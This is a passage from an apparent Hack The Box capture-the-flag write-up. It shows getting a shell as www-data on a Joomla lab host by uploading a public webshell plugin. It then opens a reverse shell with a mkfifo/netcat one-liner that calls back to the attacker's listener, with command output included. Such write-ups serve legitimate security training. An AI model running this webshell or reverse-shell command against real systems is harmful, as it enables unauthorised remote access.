 Let's try "Webshell Plugin" method this time.

I downloaded repository from : 
https://github.com/p0dalirius/Joomla-webshell-plugin.git

The detailed procedure will not be explained as it's repeated in [DEVVORTEX](../Devvortex/DEVVORTEX.md).
It worked, and I got a shell as `www-data`.

```bash
┌──(kali㉿kali)-[~/htb/Joomla-webshell-plugin]
└─$ python console.py -t http://10.10.10.150
[webshell]> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[webshell]> ifconfig
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.150  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:fe94:7aa2  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:fe94:7aa2  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:94:7a:a2  txqueuelen 1000  (Ethernet)
        RX packets 82598  bytes 6471127 (6.4 MB)
        RX errors 0  dropped 35  overruns 0  frame 0
        TX packets 80116  bytes 7762759 (7.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 46304  bytes 7195180 (7.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 46304  bytes 7195180 (7.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

I immediately opened a reverse shell to make it more interactive.

```shell
(target)
[webshell]> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 9000 >/tmp/f

(kali)
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.150] 52466
/bin/sh: 0: can't access tty; job control turned off
$
```



# Shell as `floris`??
